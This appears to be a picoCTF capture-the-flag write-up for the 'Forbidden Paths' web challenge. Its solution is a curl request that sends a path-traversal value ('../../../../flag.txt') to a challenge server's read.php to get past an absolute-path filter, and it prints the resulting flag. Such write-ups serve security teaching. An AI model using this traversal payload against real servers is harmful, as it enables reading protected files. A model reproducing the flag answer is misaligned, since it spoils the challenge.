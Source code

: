 # Forbidden Paths

## Descripcion
Can you get the flag? Here's the [website](http://saturn.picoctf.net:52683/). We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?

## Solucion
```console
┌──(yareds45㉿yareds45)-[~/develop/web]
└─$ curl -X POST http://saturn.picoctf.net:52683/read.php --data "filename=../../../../flag.txt" | grep -oE "picoCTF{.*?}" --color=none
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   394    0   365  100    29   1823    144 --:--:-- --:--:-- --:--:--  1979
picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}

```
picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}
